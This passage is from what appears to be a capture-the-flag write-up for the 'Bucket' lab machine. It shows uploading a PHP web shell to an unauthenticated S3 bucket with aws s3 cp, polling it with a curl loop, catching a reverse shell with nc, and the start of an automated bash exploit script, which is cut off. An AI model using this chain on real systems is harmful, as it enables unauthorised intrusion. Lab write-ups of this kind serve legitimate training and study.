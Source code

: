 ```bash
root@darkness:~# curl --max-time 1 -w "%{http_code}\n" -s -o /dev/null http://bucket.htb/images/shell.php
404
```

Seems like it may time some time, let us loop this curl until we get a shell.

```bash
root@darkness:~# while [ True ]; do curl --max-time 2 -w "%{http_code}\n" -s -o /dev/null http://bucket.htb/images/shell.php; sleep 0.1; done
404
404
404
[...]
200
```

Eventually we get a 200-OK and a response to our reverse-shell.

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.212.
Ncat: Connection from 10.10.10.212:43092.
Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:16:02 up 49 min,  0 users,  load average: 0.03, 0.04, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We successfully get  a reverse-shell and can now start our enumeration of the system.

#### Bonus: Exploitation automation

Now the exploitation could be stuffed into one long bash-command:

```bash
aws --endpoint-url http://s3.bucket.htb/ s3 cp shell.php s3://adserver/images/shell.php --no-sign-request;

while [ True ]; do
	curl --max-time 2 -w "%{http_code}\n" -s -o /dev/null http://bucket.htb/images/shell.php;
	sleep 0.1;
done
```

However, as it may already be known, I like to do exploit scripts, so here's my bash-exploit script:

```bash
#!/bin/bash

echo -e "
##################
# Bucket Exploit #
# By Chr0x6eOs   #
##################
"

# Get IP address
IP=$(ifconfig tun0 | grep -o 'inet .*' | cut -d' ' -f2)

# Shell name
```